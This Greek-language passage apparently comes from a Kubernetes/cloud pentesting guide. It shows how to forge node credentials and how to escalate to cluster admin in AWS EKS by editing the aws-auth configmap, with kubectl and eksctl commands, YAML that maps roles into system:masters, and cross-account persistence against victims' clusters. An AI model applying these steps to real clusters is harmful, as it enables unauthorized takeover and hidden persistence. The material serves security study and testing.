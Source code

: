Ο τρόπος για να παρακάμψετε αυτό είναι απλώς να **δημιουργήσετε διαπιστευτήρια κόμβου για το όνομα του κόμβου όπου είναι τοποθετημένο το κοντέινερ με τα ενδιαφέροντα μυστικά** (αλλά απλώς ελέγξτε πώς να το κάνετε στο πρώτο άρθρο):
```bash
"/O=system:nodes/CN=system:node:gke-cluster19-default-pool-6c73b1-8cj1"
```
### AWS EKS aws-auth configmaps

Οι φορείς που μπορούν να τροποποιήσουν **`configmaps`** στο namespace kube-system σε EKS (πρέπει να είναι σε AWS) clusters μπορούν να αποκτήσουν προνόμια διαχειριστή του cluster αντικαθιστώντας το **aws-auth** configmap.\
Οι ρήτρες που απαιτούνται είναι **`update`** και **`patch`**, ή **`create`** αν το configmap δεν έχει δημιουργηθεί:
```bash
# Check if config map exists
get configmap aws-auth -n kube-system -o yaml

## Yaml example
apiVersion: v1
kind: ConfigMap
metadata:
name: aws-auth
namespace: kube-system
data:
mapRoles: |
- rolearn: arn:aws:iam::123456789098:role/SomeRoleTestName
username: system:node{{EC2PrivateDNSName}}
groups:
- system:masters

# Create donfig map is doesn't exist
## Using kubectl and the previous yaml
kubectl apply -f /tmp/aws-auth.yaml
## Using eksctl
eksctl create iamidentitymapping --cluster Testing --region us-east-1 --arn arn:aws:iam::123456789098:role/SomeRoleTestName --group "system:masters" --no-duplicate-arns

# Modify it
kubectl edit -n kube-system configmap/aws-auth
## You can modify it to even give access to users from other accounts
data:
mapRoles: |
- rolearn: arn:aws:iam::123456789098:role/SomeRoleTestName
username: system:node{{EC2PrivateDNSName}}
groups:
- system:masters
mapUsers: |
- userarn: arn:aws:iam::098765432123:user/SomeUserTestName
username: admin
groups:
- system:masters
```
> [!WARNING]
> Μπορείτε να χρησιμοποιήσετε **`aws-auth`** για **persistency** δίνοντας πρόσβαση σε χρήστες από **άλλους λογαριασμούς**.
>
> Ωστόσο, `aws --profile other_account eks update-kubeconfig --name <cluster-name>` **δεν λειτουργεί από διαφορετικό λογαριασμό**. Αλλά στην πραγματικότητα, `aws --profile other_account eks get-token --cluster-name arn:aws:eks:us-east-1:123456789098:cluster/Testing` λειτουργεί αν βάλετε το ARN του cluster αντί για απλώς το όνομα.\
> Για να λειτουργήσει το `kubectl`, απλώς βεβαιωθείτε ότι έχετε **ρυθμίσει** το **kubeconfig των θυμάτων** και στα args εκτέλεσης του aws προσθέστε `--profile other_account_role` ώστε το kubectl να χρησιμοποιεί το προφίλ του άλλου λογαριασμού για να αποκτήσει το token και να επικοινωνήσει με το AWS.

